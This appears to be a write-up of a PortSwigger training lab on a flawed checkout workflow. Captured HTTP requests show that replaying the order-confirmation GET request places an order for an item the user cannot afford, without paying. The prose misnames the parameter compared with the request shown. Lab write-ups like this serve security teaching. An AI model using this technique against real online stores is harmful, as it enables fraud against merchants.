 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/2a762499-882e-440d-915a-5b76a64c029c)

## Overview:

> Users won't always follow the intended sequence 

Many transactions rely on **predefined workflows consisting of a sequence of steps**. The web interface will typically guide users through this process, taking them to the next step of the workflow each time they complete the current one. However, **attackers won't necessarily adhere to this intended sequence.**

Using tools like Burp Proxy and Repeater, **once an attacker has seen a request, they can replay it at will and use forced browsing to perform any interactions with the server in any order they want**. This allows them to complete different actions while the application is in an unexpected state. 

To identify these kinds of flaws, you should use forced browsing to submit requests in an unintended sequence. For example, _you might skip certain steps, access a single step more than once_, return to earlier steps, and so on

## Solution :

So we need to abuse the flawed workflow while ordering a product to solve this lab.

### Workflow

1. First login as wiener .Click on the leather jacket product & add the item to cart.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/97324883-e8e7-49a9-b5bd-71454da7a77a)

The following request is sent.

```http
POST /cart HTTP/1.1
Host: 0ae800f303e463fc846da16000350070.web-security-academy.net
Cookie: session=G44CZuircwtnZmoAaSNwDSwpbsULi7uP
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: https://0ae800f303e463fc846da16000350070.web-security-academy.net
Referer: https://0ae800f303e463fc846da16000350070.web-security-academy.net/product?productId=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

productId=1&redir=PRODUCT&quantity=1
```

In the cart page, we can see that the product is added & we can now place the order.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/dd59c3aa-f1c2-4d7f-8dd5-ad3690723c21)

2. When we place the order the following POST request is sent to `/cart/checkout`.

```http
POST /cart/checkout HTTP/2
Host: 0ae800f303e463fc846da16000350070.web-security-academy.net
Cookie: session=FrFZmMsVa1rg3dwRExGgltBTD0gijy4m
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Origin: https://0ae800f303e463fc846da16000350070.web-security-academy.net
Referer: https://0ae800f303e463fc846da16000350070.web-security-academy.net/cart
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

csrf=viHBF1tw4OTvvpMH8ukIZ9TjfivZqHrR
```
#### Case 1 - [ product_value > store_credit ]

But then we can't buy the jacket($1337) since we have only $100.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/5f005e6f-9da4-4bed-a7c8-c78f800cb96b)

#### Case 2 - [ product_value < store_credit ]

We repeat the same process again but this time we add a product that costs less than $100.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/a1025da9-fe20-45b6-ab57-36b382360a19)

This time when we place the order, we have another request being sent after */cart/checkout* which is a GET request to */cart/order-confirmation*

```http
GET /cart/order-confirmation?order-confirmed=true HTTP/2
Host: 0ae800f303e463fc846da16000350070.web-security-academy.net
Cookie: session=FrFZmMsVa1rg3dwRExGgltBTD0gijy4m
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0ae800f303e463fc846da16000350070.web-security-academy.net/cart
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```

### Abusing flawed workflow logic -

Thinking from an attacker's perspective, we can add any costly product, in our case the **leather jacket** & just resend the GET request to */cart/order-confirmation* endpoint with parameter `?order-confirmation=true` to place an order wihtout going through the intended workflow.

By this way we're abusing the flawed workflow mechanism since the server doesn't validate the workflow properly.

Now to solve the lab perform the following steps.

- Add the leather jacket to cart (can also add n number of jackets as our wish).
- Send GET request to /cart/order-confirmation.

Refresh the page to confirm that the lab is solved.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/3842b00f-efd5-40ab-9286-57320c73a824)
